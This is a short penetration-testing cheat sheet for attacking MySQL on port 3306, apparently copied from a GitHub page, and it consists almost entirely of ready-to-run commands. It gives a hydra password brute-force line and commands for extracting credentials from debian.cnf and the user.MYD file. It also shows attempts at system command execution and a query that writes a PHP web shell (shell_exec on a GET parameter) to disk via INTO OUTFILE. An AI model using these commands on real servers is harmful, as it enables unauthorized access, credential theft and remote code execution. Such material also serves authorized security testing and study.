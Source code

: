 
## MYSQL - 3306

### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u
```

### Extracting MySQL credentials from files

```
cat /etc/mysql/debian.cnf
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

### Connect

```
# Local
mysql -u <USER>
mysql -u <USER> -p

# Remote
mysql -h <IP> -u <USER>
```

### MySQL commands

```
show databases;
use <DATABASES>;

show tables;
describe <TABLE>;

select * from <TABLE>;

# Try to execute code
select do_system('id');
\! sh

# Read & Write
select load_file('<FILE>');
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '<OUT_FILE>'
```

### Manual exploit

```
Cheatsheet :
	- https://www.asafety.fr/mysql-injection-cheat-sheet/
```

---